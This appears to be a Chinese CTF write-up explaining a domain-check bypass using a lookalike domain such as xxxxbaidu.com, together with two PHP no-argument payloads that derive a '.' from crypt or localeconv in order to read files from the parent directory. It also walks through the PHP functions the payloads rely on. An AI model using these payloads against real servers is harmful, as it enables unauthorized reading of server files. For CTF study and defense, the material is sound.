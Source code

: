 思路: 注册一个xxxxbaidu.com 形式的域名.绑定到服务器上后放上自己的代码,payload

```
if(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))readfile(end(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
```

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));
```

这两个payload都很精彩, 涉及的知识点如下:

- crypt 函数没有key的时候随机生成key进行加密, 如果多尝试几次加密的话就会发现有几次的加密结果中的末尾有点号.

- ord函数传入字符串的时候, 只返回第一个字符的ascii码

- localeconv函数返回一组包含本地数字和货币格式的数组, 数组第一位是"小数点字符",  也就是点号

- ```
  php > var_dump(localeconv());
  array(18) {
    ["decimal_point"]=>
    string(1) "."
    ["thousands_sep"]=>
    string(0) ""
    ["int_curr_symbol"]=>
    string(0) ""
    ["currency_symbol"]=>
    string(0) ""
    ["mon_decimal_point"]=>
    string(0) ""
    ["mon_thousands_sep"]=>
    string(0) ""
    ["positive_sign"]=>
    string(0) ""
    ["negative_sign"]=>
    string(0) ""
    ["int_frac_digits"]=>
    int(127)
    ["frac_digits"]=>
    int(127)
    ["p_cs_precedes"]=>
    int(127)
    ["p_sep_by_space"]=>
    int(127)
    ["n_cs_precedes"]=>
    int(127)
    ["n_sep_by_space"]=>
    int(127)
    ["p_sign_posn"]=>
    int(127)
    ["n_sign_posn"]=>
    int(127)
    ["grouping"]=>
    array(0) {
    }
    ["mon_grouping"]=>
    array(0) {
    }
  }
  php >
  ```

- pos() 函数是current函数的别名

- time() 返回时间戳整数, 从中无法提出点号
  ```
